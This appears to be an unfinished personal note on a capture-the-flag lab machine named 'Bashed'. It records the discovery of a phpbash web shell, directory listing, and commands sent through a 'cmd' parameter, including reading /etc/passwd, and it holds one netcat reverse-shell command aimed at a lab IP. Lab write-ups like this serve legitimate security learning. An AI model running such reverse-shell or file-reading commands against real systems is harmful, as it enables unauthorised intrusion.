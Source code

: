 # <span style="color:[COLOR]">Machine #30 Bashed</span>  



## <span style="color:[COLOR]">Checklist 🤓   



<br/><br/>


## <span style="color:[COLOR]">What Do We Have? 🤔🤔 
* Some script called `phpbash` that seems to be running on the server.  
* I tried to visit `http://[IP]/uploads` and it worked. It exists.
* I also tried to send a post request to the uploads with the parameter `cmd`, the command `whoami` didn't work, gave me an error `412 Precondition Failed` but when I tried `pwd` or `cat /etc/passwd` it worked but it didn't return an output. Anyway, it doesn't have to return an output.  
* I also have the source code of the phpbash thing which gives me an upper hand.  
* There's a directory called `/php` it seems according to the contact form I found this `/php/sendMail.php`. 
* I was able to open `/php` and it did not include anything but `sendMail.php` but if I was able to open it doesn't that mean that I have Directory Traversal vulnerability. 
* I think I do have directory traversal.
* Found a `/dev` directory through gobuster and since I have directory traversal I was able to view the directory and find that `phpbash.php` is stored there.

nc -e /bin/sh 10.10.14.72 1234

<br/><br/>


## <span style="color:[COLOR]">Random Notes👀

<br/><br/>  


## <span style="color:[COLOR]">How Did I Own This Shit 😎🥳  

<br/><br/>



## <span style="color:[COLOR]">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:[COLOR]">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:[COLOR]">Writeups ✍🏽📓   


<br/><br/>

<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->  
